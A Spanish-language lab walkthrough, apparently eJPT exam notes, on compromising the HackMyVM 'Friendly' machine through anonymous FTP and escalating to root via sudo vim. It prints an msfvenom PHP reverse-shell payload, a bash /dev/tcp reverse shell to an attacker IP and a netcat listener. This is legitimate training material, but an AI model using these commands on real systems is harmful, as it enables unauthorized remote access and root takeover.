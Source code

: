 
---
- TAG: #Elevación #Privilegios #Linux #Comando-Sudo-l
----
En este apartado vamos a estar viendo un tema super importante al momento de rendir el examen, vamos a estar aprendiendo las maneras más comunes y típicas que se realiza esta escalada de privilegios en máquina vulnerables.

Esto consiste convertirnos desde el usuario que seamos hasta llegar a ser el administrador dentro de una máquina victima, esto en el examen va a caer si o si, porque como temas como el pivoting hay que aprender a escalar.

Para empezar con la practica vamos a necesitar lo de siempre
1. Máquina atacante **Kali Linux**
	- Encontramos la máquina victima con `arp-scan`
	- Vemos si tenemos conectividad lazandole un `ping`
	- Encontramos vulnerabilidades con `nmap`
1. Máquina victima [Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly) De la página de **HackMyVM**
	- La descargamos y la importamos a nuestro Virtual Box
	- Le configuramos el adaptador puente

----

Primero estaremos realizando la intrusión y luego la escalada de privilegios 

En el escaneo de `nmap` hemos encontrado el puerto 80 y el puerto 21 abiertos, en el cual en el puerto 21 corre el protocolo `ftp` con el usuario `anonymous` y en contraseña por defecto en blanco aplastamos enter y listo ya estaríamos adentro.

si realizamos un `dir` dentro de la máquina, nos encontramos con un archivo `index.html` que es la página que nos carga por defecto cuando apuntamos a la dirección ip por el puerto 80 en el navegador, nos carga la plantilla principal de index.html

Para obtener acceso a la máquina lo que podríamos hacer es crear un payload malicioso con `msfvenom` indicandole nuestra dirección ip de nuestra máquina atacante por el puerto 443

```bash
msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
```

El archivo creado es el cual lo debemos subir a la máquina victima, a traves del protocolo `ftp` 

y dentro del directorio actual de trabajo donde se encuentre el archivo malicioso podemos para poder ingresar neuvamente al protocolo `ftp` y subir el archivo malicioso de la siguiente manera

```bash
ftp> put pwned.php
```

Si volvemos a revisar debería estar cargado junto al archivo `index.html`

Luego nos ponemos a la escucha con `netcat` por el puerto `443`

```bash
nc -nlvp 443
```

Y ahora desde el navegador cargamos la ruta con la ip y la duta con el archivo malicioso

```bash
http://1.2.3.4/pwnded.php
```

Luego de realizar esto regresamos a nuestra máquina y deberiamos haber obtenido el acceso

Ahora realizamos una revershell para tener una conexión más estable, ya que luego de un minuto se suele perder conexión, lo que solemos hacer es enviarnos una bash guiándonos con la pagina `revshell.com`

```bash
bash -c "sh -i >& /dev/tcp/192.168.100.42/444 0>&1"
```

Y desde otra pestaña nos ponemos a la escucha por el puerto `444` y nos enviamos la revershell y listo con esto ya abremos obtenido el acceso estable a la máquina 

Lo primero que haríamos sería el tratamiento de la `stty` 
1. 
```bash
script /dev/null -c bash
```
2. Salimos de la sesión aplastando `Ctrl + Z`
3. En la terminal realizamos el siguiente comando 
```bash
stty raw -echo; fg 
```
Seguido de esto debemos escribir **reset xterm**

4. Configuramos la terminal dentro de la sesión 
```bash
export TERM=xterm
export SHELL=bash
```

---

Una vez un entorno más controlado les voy a explicar la escalada de privilegios

Existen muchas maneras pero aqui se les va a enseñar la mas conocida, en el examen de la eJPT deben poner una escala sencilla como la que mostraremos a continuación 

hay una forma que se puede comprobar varias vías por donde se pueda escalar privilegios, con el comando :

```bash
sudo -l
```

En algunos entornos pueda que funcione y en otros que si como en este caso 

Si observamos de respuesta nos muestra que el usuario `www-data` osea nosotros, podemos ejecutar comandos como usuarios root en la ruta `/usr/bin/vim`, en el examen es muy probable que nos encontremos con un ejemplor similar, puede mostrar `vim` o cualquier otra ruta, pero para cada binario hay una manera de escalar privilegios. 

Pero tranquilos que existe una página que es de gran ayuda [GTObins](https://gtfobins.github.io/)
Esta página se recomienda mucho tenerla abierta paralelo mientras se de el examen por que esta web nos da un monton de información para escalar privilegios abusando de muchos tipos de binarios, en este caso como estamos frente a un binario `vim` asi que lo buscamos en la página web y buscamos segun el comando que hemos realizado, como lo hemos encontrado con `sudo -l` debemos buscar el apartado que diga `sudo` 

Y en esta parte nos indica lo siguiente: 
![[GTFOBins.png]]

Intentamos con la opción (a) pero antes de ejecutar solo `vim` es preferible indicar la ruta absoluta que nos mostro la consola al momento de hacer el `sudo -l`, que en este caso seria `/usr/bin/vim`

Y con esto ya estaríamos como usuarios `root`

